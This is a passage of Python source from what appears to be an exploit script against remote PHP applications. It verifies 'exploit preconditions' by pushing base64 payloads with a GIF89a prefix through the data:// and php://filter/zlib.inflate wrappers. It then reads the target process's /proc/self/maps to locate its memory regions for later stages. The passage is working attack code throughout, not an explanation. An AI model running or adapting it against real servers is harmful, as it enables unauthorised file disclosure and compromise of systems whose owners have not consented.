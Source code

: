 ~~~ python
            return len(set(result).intersection(set(text.encode()))) > 0

        text = tf.random.string(50).encode()
        base64 = b64(b'GIF89a' + text, misalign=True).decode()
        path = f"data:text/plain;base64,{base64}"
       
        result = safe_download(path)
       
        if len(set(result).intersection(set(text))) == 0:
            msg_failure("Remote.download did not return the test string")
            print("--------------------")
            print(f"Expected test string: {text}")
            print(f"Got: {result}")
            print("--------------------")
            failure("If your code works fine, it means that the [i]data://[/] wrapper does not work")

        msg_info("The [i]data://[/] wrapper works")

        text = 'GIF89a' + tf.random.string(50)
        base64 = b64(text.encode(), misalign=True).decode()
        path = f"php://filter//resource=data:text/plain;base64,{base64}"
        if not check_token(text, path):
            failure("The [i]php://filter/[/] wrapper does not work")

        msg_info("The [i]php://filter/[/] wrapper works")

        text = 'GIF89a' + tf.random.string(50)
        base64 = b64(compress(text.encode()), misalign=True).decode()
        path = f"php://filter/zlib.inflate/resource=data:text/plain;base64,{base64}"

        if not check_token(text, path):
            failure("The [i]zlib[/] extension is not enabled")

        msg_info("The [i]zlib[/] extension is enabled")

        msg_success("Exploit preconditions are satisfied")

    def get_file(self, path: str) -> bytes:
        with msg_status(f"Downloading [i]{path}[/]..."):
            return self.remote.download(path)

    def get_regions(self) -> list[Region]:
        """Obtains the memory regions of the PHP process by querying /proc/self/maps."""
        maps = self.remote.data_decode(self.get_file("/proc/self/maps"))
       
        PATTERN = re.compile(
            r"^([a-f0-9]+)-([a-f0-9]+)\b" r".*" r"\s([-rwx]{3}[ps])\s" r"(.*)"
        )
        regions = []
        for region in table.split(maps, strip=True):
            if match := PATTERN.match(region):
                start = int(match.group(1), 16)
                stop = int(match.group(2), 16)
                permissions = match.group(3)
                path = match.group(4)
                if "/" in path or "[" in path:
                    path = path.rsplit(" ", 1)[-1]
                else:
                    path = ""
                current = Region(start, stop, permissions, path)
                regions.append(current)
            else:
~~~